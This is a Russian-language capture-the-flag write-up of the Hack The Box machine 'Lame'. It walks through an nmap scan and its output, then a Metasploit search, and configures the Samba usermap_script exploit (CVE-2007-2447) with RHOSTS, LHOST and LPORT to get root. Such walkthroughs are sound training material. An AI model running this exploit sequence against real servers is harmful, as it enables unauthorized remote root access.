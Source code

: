 # 🟢 Lame(Linux, Easy)

###

![](<../.gitbook/assets/1 (1) (1) (1).png>)

### Содержание:

Я считаю, что это самая простая машина на HTB, так как для ее прохождения потребуется только один эксплоит. Для начала мы просканируем порты с дефолтным nmap-скриптом. Затем, запустим метасплоит и найдем эксплоит для Samba версии 3.0.20(CVE-2007-2447). После того, как эксплоит отработает мы получим сразу рут-доступ.

### Сканируем порты с помощью nmap:

```
$ nmap -sC -sV -Pn 10.10.10.3 -oN nmap
```

```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.16.43
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2022-01-30T12:13:06-05:00
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 2h35m41s, deviation: 3h32m09s, median: 5m40s
```

Используем флаг -Pn для принудительного сканирования портов, так как без него nmap считает, что хост "лежит".

### Ищем эксплоит в metasploit:

Теперь в метасплоите мы можем посмотреть эксплоиты для самбы версии **3.0.20**:

```
$ msfconsole
msf6 > search 3.0.20
```

Используем данный эксплоит:

```
exploit/multi/samba/usermap_script 2007-05-14 excellent    No    Samba "username map script" Command Execution
```

### Запускаем эксплоит и получаем рута:

```
msf6 > use exploit/multi/samba/usermap_script
```

Настраиваем так:

![](<../.gitbook/assets/2 (1) (1).png>)

**RHOSTS** - удаленная машина, которую будем атаковать

**RPORT** - не меняем, он правильно выставлен

**LHOST** - свой айпи, можно узнать через:

```
$ ip r
```

**LPORT** - свой порт, который еще не занят, например, 9999.

```
msf6 exploit(multi/samba/usermap_script) > exploit
```

![](<../.gitbook/assets/3 (1).png>)
